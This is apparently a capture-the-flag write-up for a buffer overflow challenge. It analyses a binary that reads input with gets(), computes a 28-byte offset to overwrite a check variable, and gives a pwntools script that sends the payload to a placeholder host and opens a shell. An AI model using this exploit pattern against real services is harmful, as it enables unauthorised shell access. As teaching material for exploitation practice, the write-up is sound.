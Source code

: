 ## Solution

To analyse the binary, we use [Cutter](https://github.com/rizinorg/cutter).

## Analysis

![Disassembly View](images/1.png)  
![Decompiler View](images/2.png)

By inspecting both the disassembled and decompiled views, we observe the following:

- The program uses the unsafe `gets()` function to read user input, making it vulnerable to a buffer overflow.
- A local variable `var_ch` is initialized to `0x4d2` (which is **1234** in decimal).
- The program checks if `var_ch == 0x162e` (**5678** in decimal).
- If this condition is met, it prints `"Welcome home!"` and invokes the `shell()` function, which spawns a Bash shell using `system("/bin/bash")`.
- Otherwise, it prints:  
  `You are lying. No access for you.`

![Control Flow](images/3.png)


Running `checksec` on the binary shows no stack canaries are used.

This confirms that a **stack buffer overflow** is possible.


The disassembler reveals the stack layout:

```
; var char *s @ stack - 0x28
; var unsigned long long var_ch @ stack - 0xc
```


This means:
- The buffer `s` starts at `rbp - 0x28`
- The target variable `var_ch` is at `rbp - 0xc`
- To reach and overwrite `var_ch`, we need to overflow `0x28 - 0xc = 0x1C` bytes (28 bytes)

Plan:
1. Fill 28 bytes to overflow the buffer.
2. Overwrite `var_ch` with `0x162e` (5678 in decimal).


### Exploit Code

We can use Pwn Tools to write the exloit

```python
from pwn import *

# Connect to the vulnerable service
p = remote("CHALLENGE_IP", 1337)

# 28 bytes padding + 4 bytes to overwrite var_ch
payload = b"A" * (0x28 - 0xc) + p32(0x162e)

# Send the crafted input
p.sendline(payload)

# Interact with the shell
p.interactive()
```

Running the exploit results in a shell:

![](images/4.png)

You can now grab the flag or run further commands.